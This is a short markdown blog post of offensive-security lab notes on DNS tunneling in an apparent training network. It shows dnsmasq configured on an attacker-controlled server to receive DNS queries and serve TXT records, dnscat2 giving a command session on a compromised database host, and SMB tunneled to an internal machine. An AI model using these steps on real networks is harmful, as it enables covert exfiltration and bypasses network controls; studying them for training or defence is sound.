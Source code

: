 ```yaml
---
layout: post
title: DNS Tunneling
titledate: 09/24/23
tags: ["infosec", "offsec", "tunnel", "dnsmasq", "dnscat2", "dns"]
---
```


#### dns queries and exfiltration

let's say we have shell access to target1 a windows machine that can talk to the internal psql db and another WAN connected machine that can only talk to target1

if we have shell access to both machines we may want to make the external connected WAN machine a dns server and we can do this with dnsmasq

inside our WAN linux machine shell we configure dnsmasq

    $ cat dnsmasq.conf

    - auth-zone=feline.corp
    - auth-server=feline.corp

start the service 

    $ sudo dnsmasq -C dnsmasq.conf -d

inside another shell on our newly configured dns server we start listening on the interface

    $ sudo tcpdump -i ens192 udp port 53

now on our internal pg db machine we start making dns queries aimed at our WAN dns server we setup

    $ resolvectl status

let's make a dns request using our newly created domain

    $ nslookup ex-data.feline.corp

it cannot find our domain because it hasnt been configured yet

if we check our tcpdump activity we'll seee a dns request that's because our target1 windows machine knows the authoritative name server belogs to our WAN machine and forwards the request along

this shows how we can send small amounts of data from inside the network to an externa machine we can control

#### serving records and infiltrating

now let's kill the dnsmasq process we started above and try to serve txt records

edit the dnsmasq.conf 

    $ vim cat dnsmasq_txt.conf
    
    # TXT record
    txt-record=www.feline.corp,blah blah
    txt-record=www.feline.corp,blah blah something

restart using our new conf

    $ sudo dnsmasq -C dnsmasq_txt.conf -d

now back on our internally connected pg db system we can make a dns query for a txt record

    $ nslookup -type=txt www.feline.corp

and this is how we can infiltrate a network using dns

#### dnscat2

dnscat2 allows us to exfiltrate and infiltrate data

dnscat2 runs on an authoritative nameserver for a domain and any client queries for that domain are compromised

let's listen on port 53

    $ sudo tcpdump -i ens192 udp port 53

start the dnscat2 server

    $nameserver:> dnscat2-server feline.corp

now inside our INTERNAL pg db machine we run

    $pgdb:> ./dnscat feline.corp

if we run dnscat2 server now on our nameserver we shold see an established connection

    $nameserver:> ./dnscat feline.corp

simiar to metasploit we can now interact with this session

if we enter

    $ windows

    $ window -i 1

this will connect to our pg db session and list available commands

we can tunnel smb traffic through dns requests

    $ listen 127.0.0.1:4455 172.16.50.50:445

then in another shell we can enumerate these shares on on our internal smb machine through the port forward we have setup

    $ smbclient -p 4455 -L //127.0.0.1 -U admin --password=password